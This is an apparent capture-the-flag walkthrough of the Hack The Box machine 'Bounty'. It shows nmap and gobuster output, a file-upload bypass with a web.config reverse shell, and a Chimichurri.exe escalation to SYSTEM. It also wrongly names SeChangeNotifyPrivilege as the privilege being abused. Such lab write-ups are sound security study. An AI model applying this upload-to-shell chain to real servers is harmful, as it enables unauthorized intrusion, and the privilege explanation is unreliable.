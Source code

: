 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/864ae837-1aaa-4b5c-86d7-ee9486da8898)

first enumeration with nmap 

```
# Nmap 7.93 scan initiated Fri Jun  2 10:03:16 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 80 -Pn 10.10.10.93
Nmap scan report for bounty.htb (10.10.10.93)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  2 10:03:30 2023 -- 1 IP address (1 host up) scanned in 14.22 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/94a5cd95-4184-4ec0-bc36-1074311df162)

opening the ip on a browser, got redirected to a page with a merlin picture. let's fuzz for directories 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Bounty]
└─$ gobuster dir -u http://10.10.10.93/ -w /usr/share/wordlists/dirb/common.txt -x aspx                
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              aspx
[+] Timeout:                 10s
===============================================================
2023/06/03 01:14:29 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 156] [--> http://10.10.10.93/aspnet_client/]
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
Progress: 9219 / 9230 (99.88%)
===============================================================
2023/06/03 01:17:01 Finished
===============================================================
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/10e130bc-88dd-4632-ad01-19a39ae5cd86)

navigate to `transfer.aspx`, there is a file upload func there. tried to upload an aspx reverse shell file, got `Invalid File. Please try again` let's fuzz for the type of extention that is allowed.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5a57146f-9732-4455-a269-98476212e59f)

cool we can see the allowed extensions. `.config,.doc...` let's look for a `.config` revshell payload we can create 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7ea2f031-01d1-47a9-9867-93ede665367d)

cool we found one on github [web.config](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config), let's download the file. also we need an `Invoke-PowerShellTcp.ps1` file. fire up python http server along with ncat listener.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c06b77fe-53c3-4377-aa07-333c7a590ef8)

upload the `web.config` file. let's locate this file.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f612589f-fe1b-414e-a7c9-af2b23585144)

find the file and check back ncat listener.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7b35e01a-04af-4301-85bd-6d7c959f3999)

Bull's eye we got a reverse shell.


## Privilege Escalation

```
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 
```
checking privs, we can see we have `SeChangeNotifyPrivilege` enabled. let's abuse this. let's run `Chimichurri.exe`

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/96b7e3ec-b575-4f53-8e7b-19ffa02bec39)

running `chimichurri.exe IP PORT` got a reverse shell as `nt authority\system`.




